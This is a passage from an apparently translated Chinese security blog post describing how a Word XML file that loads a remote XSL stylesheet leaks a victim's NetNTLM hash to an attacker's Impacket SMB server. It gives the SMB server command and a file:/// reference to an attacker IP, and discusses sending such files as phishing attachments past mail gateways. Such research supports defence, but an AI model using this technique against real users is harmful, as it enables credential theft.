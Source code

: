 在尝试打开此文件之前，让我们在攻击计算机上启动Impacket SMB服务器：

`smbserver.py -smb2support test .`

[![](https://bohops.files.wordpress.com/2018/08/06_smb_server_setup.png?w=768)](https://bohops.files.wordpress.com/2018/08/06_smb_server_setup.png?w=768)

双击我们的’恶意’XML文件, 打开：

[![](https://bohops.files.wordpress.com/2018/08/07_open_word.png?w=768)](https://bohops.files.wordpress.com/2018/08/07_open_word.png?w=768)

现在，看看我们的SMB服务器日志来检查结果：

[![](https://bohops.files.wordpress.com/2018/08/11_captured_nethash.png?w=768)](https://bohops.files.wordpress.com/2018/08/11_captured_nethash.png?w=768)

成功了。我们现在可以尝试破解这个哈希！



## 用例，注释和注意事项

### <a class="reference-link" name="%E7%BD%91%E7%BB%9C%E9%92%93%E9%B1%BC%E7%9A%84%E5%BD%B1%E5%93%8D"></a>网络钓鱼的影响

根据具体情况，XML文件可通过某种网络钓鱼技术来部署。如果攻击目标对远程用户的出网过滤规则或VPN控制较弱，则攻击者可以将Office XML文档作为电子邮件附件发送给被攻击者, 电子邮件很可能“在邮件网关和扫描雷达的眼皮子底下”有惊无险的抵达对方的邮件收件箱：

[![](https://bohops.files.wordpress.com/2018/08/phish_1.png?w=768)](https://bohops.files.wordpress.com/2018/08/phish_1.png?w=768)

双击并按“打开”。

**注意**：根据具体情况，用户可能必须逐步点击默认关联的提示框。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://bohops.files.wordpress.com/2018/08/phish_2.png?w=768)

因为该文件来自其他位置（例如Web），Word会在[受保护视图](https://support.office.com/en-us/article/what-is-protected-view-d6f09ac7-e6b9-4495-8e43-2bbcdbcb6653)中打开。一旦我们“启用编辑”，就会从远程服务器获取XSL文档，于是我们就可以在攻击机上收集用户的NetNTLM哈希值：

[![](https://bohops.files.wordpress.com/2018/08/phish_3.png?w=768)](https://bohops.files.wordpress.com/2018/08/phish_3.png?w=768)

### <a class="reference-link" name="%E6%A0%B7%E5%BC%8F%E8%A1%A8%E5%8F%82%E8%80%83%E6%A0%87%E8%AE%B0"></a>样式表参考标记

在上面的示例中，我们使用显式UNC路径来引用样式表。使用file:///协议也可以：

`file:///192.168.245.175/test/word.xsl`

### <a class="reference-link" name="%E5%85%B6%E4%BB%96Microsoft%20Office%E5%BA%94%E7%94%A8%E7%A8%8B%E5%BA%8F"></a>其他Microsoft Office应用程序

此种远程加载样式表的方式也适用于其他Office应用程序（例如Excel）。Word似乎是最简单的。
